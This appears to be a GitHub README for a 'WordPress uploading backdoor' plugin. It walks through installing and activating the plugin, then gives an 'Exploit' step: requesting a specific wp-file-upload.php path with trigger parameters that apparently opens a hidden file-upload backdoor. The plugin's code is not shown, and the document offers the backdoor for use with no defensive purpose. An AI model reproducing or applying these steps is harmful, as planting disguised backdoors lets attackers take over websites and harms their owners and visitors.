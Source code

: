 # **Wordpress Uploading Backdoor From Plugin**

**Step**
**1** <p>Installing Plugins</p>
![Install Plugins](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/install-plugin.PNG)

**Step**
**2** <p>Activate Plugins</p>
![Activate Plugins](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/activate-plugin.PNG)

**Step**
**3** <p>Check Plugins Active</p>
![Check Plugins](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/check-plugin.PNG)

**Step**
**4** <p>Exploit</p>

    /wp-content/plugins/wp-file-upload/wp-file-upload.php?nulz&ganteng

![Exploit](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/wp-exploit.PNG)

# Enjoy
